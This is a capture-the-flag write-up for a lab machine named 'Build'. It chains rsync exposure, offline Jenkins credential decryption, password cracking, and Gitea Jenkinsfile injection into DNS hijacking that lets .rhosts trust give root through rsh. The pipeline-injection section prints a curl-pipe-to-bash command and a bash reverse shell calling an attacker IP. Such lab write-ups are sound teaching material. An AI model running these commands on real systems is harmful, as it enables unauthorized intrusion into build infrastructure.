




## Overview

Build is a Linux machine that chains together several misconfigurations across a CI/CD stack. The attack path goes from unauthenticated rsync access → Jenkins credential decryption → Gitea pipeline injection → Docker container escape via DNS hijacking → passwordless `rsh` as root on the host.

## Enumeration

### Nmap

```bash
nmap -sC -sV 10.129.234.169
```

```
PORT     STATE    SERVICE         VERSION
22/tcp   open     ssh             OpenSSH 8.9p1 Ubuntu 3ubuntu0.13
53/tcp   open     domain          PowerDNS
512/tcp  open     exec            netkit-rsh rexecd
513/tcp  open     login?
514/tcp  open     shell           Netkit rshd
873/tcp  open     rsync           (protocol version 31)
3000/tcp open     http            Gitea
3306/tcp filtered mysql
8081/tcp filtered blackice-icecap
```

Several interesting services are exposed:

- **Ports 512–514** — Berkeley r-commands (`rexec`, `rlogin`, `rsh`). These are legacy remote access tools, essentially the predecessor to SSH. They rely on a `.rhosts` file for host-based authentication — no password needed if a host is trusted.
- **Port 873** — `rsync`, used to sync files between machines. Often misconfigured to allow unauthenticated reads.
- **Port 3000** — Gitea, a self-hosted Git service.
- **Ports 3306 / 8081** — Filtered (not reachable externally, but possibly accessible from inside the network).

## Foothold

### Rsync — Unauthenticated Access

```bash
rsync rsync://10.129.6.190

rsync rsync://10.129.6.190/backups/
# -rw-r--r-- 376,289,280 jenkins.tar.gz

rsync -av rsync://10.129.6.190/backups/ .
```

The `backups` share is world-readable and contains `jenkins.tar.gz` — a full backup of a Jenkins installation (~360 MB). After extracting it:

```bash
tar -xf jenkins.tar.gz
```

We get the entire `jenkins_configuration/` directory, including jobs, secrets, user data, and credentials.

### Decrypting Jenkins Credentials

Jenkins encrypts stored credentials using master keys on disk. With the backup in hand, we can decrypt them offline using [jenkins_offline_decrypt.py](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py).

First, locate the encrypted credential in the job config:

```bash
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<" jenkins_configuration/
# jobs/build/config.xml: <password>{AQAAABAAAA...}</password>
```

The credential belongs to the user `buildadm`. Decrypt it:

```bash
python3 jenkins_offline_decrypt.py \
  jenkins_configuration/secrets/master.key \
  jenkins_configuration/secrets/hudson.util.Secret \
  jenkins_configuration/jobs/build/config.xml
```

This recovers the plaintext password for `buildadm`.

We also find a bcrypt hash for the Jenkins `admin` user:

```bash
cat jenkins_configuration/users/admin_*/config.xml | grep passwordHash
# $2a$10$PaX...
```

Running it through hashcat with rockyou gives us:

```
$2b$12$...:Git1234!
```

### Gitea — Pipeline Injection

Navigating to `http://10.129.234.169:3000`, we find a Gitea instance with a public repository: `buildadm/dev`. It contains a single file — a `Jenkinsfile` — confirming Jenkins is running internally and pulling from this repo via a webhook.

We log in as `buildadm` using the decrypted credentials. Since we now own the repo, we can edit the `Jenkinsfile` to inject a reverse shell. Rather than embedding the payload directly, we curl it from our web server:



```groovy
pipeline {
    agent any
    stages {
        stage('Do nothing') {
            steps {
                sh 'curl http://10.10.14.158:8000/payload.sh | bash'
            }
        }
    }
}
```

`payload.sh` contains a standard bash reverse shell:

```bash
bash -i >& /dev/tcp/10.10.14.158/4444 0>&1
```

After committing the change, the webhook fires and Jenkins executes the pipeline. Within a minute or two, we catch a shell — as `root` inside the Jenkins Docker container.

## Inside the Jenkins Container

The container hostname (random hex) and the presence of `/.dockerenv` confirm we are in Docker.

```bash
root@5ac6c7d6fb8e:~# ls /root
.rhosts  .ssh  user.txt
```

We grab the user flag, then inspect `.rhosts`:

```bash
root@5ac6c7d6fb8e:~# cat .rhosts
admin.build.vl +
intern.build.vl +
```

This is critical. The `.rhosts` file tells `rsh`/`rlogin` to trust **any user** connecting from `admin.build.vl` or `intern.build.vl` — no password required. If the DNS server resolves our IP as one of those hostnames, we can log in as root on the host.

By checking the filesystem mounts:

```bash
findmnt
# /root → /dev/mapper/ubuntu--vg-ubuntu--lv[/root/scripts/root]
```

The host's `/root/scripts/root` directory is bind-mounted into the container's `/root`. This means the same `.rhosts` file exists on the host at `/root/.rhosts`.

## Pivoting — Internal Network

### Port Scanning via rustscan

We transfer rustscan to the container and scan the Docker gateway `172.18.0.1` (the host):

```bash
./rustscan -a 172.18.0.1

Open 172.18.0.1:22
Open 172.18.0.1:512
Open 172.18.0.1:513
Open 172.18.0.1:514
Open 172.18.0.1:3000
Open 172.18.0.1:3306
```

Ports 512–514 (`rexec`, `rlogin`, `rsh`) are open on the **host** — not inside any container.

### MariaDB — No Password Required

```bash
proxychains mysql -h 172.18.0.1 -u root --skip-ssl
```

MariaDB accepts root with no password. There is one non-standard database:

```sql
show databases;
-- powerdnsadmin
```

### DNS Records

```sql
USE powerdnsadmin;
SELECT * FROM records;
```

```
db.build.vl          → 172.18.0.4
gitea.build.vl       → 172.18.0.2
intern.build.vl      → 172.18.0.1
jenkins.build.vl     → 172.18.0.3
pdns-worker.build.vl → 172.18.0.5
pdns.build.vl        → 172.18.0.6
```

There is **no record** for `admin.build.vl`. `intern.build.vl` points to `172.18.0.1` — the host itself.

### Cracking the PowerDNS Admin Hash

```sql
SELECT username, password FROM user;
-- admin | $2b$12$s1hK0o7YNkJGfu5poWx.0u1WLqKQIgJOXWjjXz7Ze3Uw5Sc2.hsEq
```

```bash
hashcat -m 3200 -a 0 '$2b$12$...' rockyou.txt
# Result: winston
```

## Privilege Escalation — DNS Hijacking

Scanning the full `172.18.0.0/24` subnet reveals a host on `.6` running HTTP on port 80 — the PowerDNS-Admin web interface:



We log in with `admin:winston`:



From the Zone Editor, we add a new `A` record pointing `admin.build.vl` to our attack machine's IP (`10.10.14.158`):



After saving and applying the changes, we verify with:

```bash
dig admin.build.vl @10.129.6.190
# Answer: admin.build.vl → 10.10.14.158
```

Now when the host performs a reverse-DNS check on our IP during `rsh` authentication, it resolves to `admin.build.vl` — which is trusted in `/root/.rhosts`.

## Root Shell

```bash
rsh root@build.vl

Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-144-generic x86_64)
```
